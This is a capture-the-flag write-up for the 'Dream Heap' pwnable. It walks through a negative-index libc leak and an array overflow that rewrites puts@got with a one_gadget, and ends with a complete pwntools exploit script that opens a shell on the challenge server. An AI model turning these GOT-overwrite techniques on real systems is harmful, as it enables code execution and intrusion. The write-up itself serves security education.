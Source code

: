 # Dream Heap

Dream Heap is a pwnable with the classic options: write, read, edit, delete:

```
Online dream catcher! Write dreams down and come back to them later!

What would you like to do?
1: Write dream
2: Read dream
3: Edit dream
4: Delete dream
5: Quit
```
There actually is a "heap" way to solve this challenge, we found another bug though that did not require any heap exploitation:

The following security measure are in place:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
So we don't have PIE and only Partial RELRO. This screams for us to overwrite some GOT entry with system or with a magic gadget.

The binary has two arrays stored in the .bss section. HEAP_PTRS[8] and SIZES[8]. HEAP_PTRS contains pointers to the dreams you allocated and SIZES contains the size of the dreams you allocated. Above them is a variable called INDEX, that holds the amount of dreams you allocated.

We can leak an address using the `Read dream` function:

```
unsigned __int64 read_dream()
{
  int index; // [rsp+Ch] [rbp-14h]
  __int64 dream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Which dream would you like to read?");
  index = 0;
  __isoc99_scanf("%d", &index);
  if ( index <= INDEX )                         // leak negative number
  {
    dream = HEAP_PTRS[index];
    printf("%s", dream);
  }
  else
  {
    puts("Hmm you skipped a few nights...");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
The index <= INDEX is a signed comparison, thus we can provide a negative index. If we provide a pointer to a GOT entry, ` printf("%s", dream)` will leak the corresponding libc address. Starting at `0x000000000400520` we have the ELF JMPREL Relocation Table that holds pointers to the GOT.
Thus by providing the correct negative offset we can leak a libc address and defeat ASLR.

Next we have to overwrite a GOT entry with a one_gadget/magic gadget (see: https://github.com/david942j/one_gadget)

For this we abuse the `Make dream` and `Edit dream` functions. Notice that in READ dream, there is no check for the amount of dreams to allocate. 

```
unsigned __int64 new_dream()
{
  int len; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  len = 0;
  puts("How long is your dream?");
  __isoc99_scanf("%d", &len);
  buf = malloc(len);
  puts("What are the contents of this dream?");
  read(0, buf, len);
  HEAP_PTRS[INDEX] = (__int64)buf;              // index can overflow into SIZES
  SIZES[INDEX++] = len;
  return __readfsqword(0x28u) ^ canary;
}
```
Remember that SIZES is 8 pointers after HEAP_PTRS. Thus we can overflow HEAP_PTRS into SIZES. Normally this would not be a problem, but HEAP_PTRS is of size 8 (pointers), while SIZES is of size 4 (int32). So at the 20th write, the lower 4 bytes of HEAP_PTRS[18] and SIZES[20] will overlap. So we can change HEAP_PTRS[18] to point to `puts@got` instead of a heap chunk.

Now we will use the `Edit dream` function to change the content of a dream/"heap chunk":

```
unsigned __int64 edit_dream()
{
  int index; // [rsp+8h] [rbp-18h]
  int size; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("Which dream would you like to change?");
  index = 0;
  __isoc99_scanf("%d", &index);
  if ( index <= INDEX )
  {
    buf = (void *)HEAP_PTRS[index];
    size = SIZES[index];
    read(0, buf, size);
    *((_BYTE *)buf + size) = 0;
  }
  else
  {
    puts("You haven't had this dream yet...");
  }
  return __readfsqword(0x28u) ^ v4;
}
```
As you probably see, if we edit HEAP_PTRS[18], we don't actually edit a heap chunk but the content of `puts@got`. So we simply overwrite `puts@got` to point to `one_gadget`. The next `puts` call will now give us shell.


Here is the full exploit:

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('dream_heaps')
libc = context.binary = ELF('libc6_2.23-0ubuntu11_amd64.so')
#libc = context.binary = ELF('/lib/x86_64-linux-gnu/libc.so.6')


host = args.HOST or 'chal1.swampctf.com'
port = int(args.PORT or 1070)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
b*0x400906
continue
'''.format(**locals())


def read(index):
    io.sendlineafter("> ", "2")
    io.sendlineafter("?\n", str(index))
    leak =  io.recvline()
    leak = leak.split("What")[0]
    leak = leak[:6]
    return u64(leak.ljust(8, '\x00'))

def write(length, content):
    io.sendlineafter("> ", "1")
    io.sendlineafter("?\n", str(length))
    io.sendlineafter("?\n", content)


def delete(index):
    io.sendlineafter("> ", "4")
    io.sendlineafter("?\n", str(index))

def edit(index, content):
    io.sendlineafter("> ", "3")
    io.sendlineafter("?\n", str(index))
    io.sendline(content)


# -- Exploit goes here --

io = start()

# Compute offset from JMPREL to HEAP_PTRS
jmprel = 0x00000004005B0 
offset = (0x0006020A0 - jmprel)/8
log.info(offset)

leak = read(-offset)
log.info("__libc_start_main@libc: 0x{:x}".format(leak))
libc.address = leak - libc.sym.__libc_start_main 
log.info("Libc: 0x{:x}".format(libc.address))

# overlap HEAP_PTRS and SIZES
for i in range(19):
    write(0x8, "A")

write(0x0, "")
write(int(exe.got.puts), "")

one_gadget = 0x45216
#local
#one_gadget = 0x4f322

# Overwrite puts@got with one_gadget
edit(18, p64(libc.address + one_gadget))

io.interactive()
```

flag{d0nt_bE_nu11_b3_dul1}
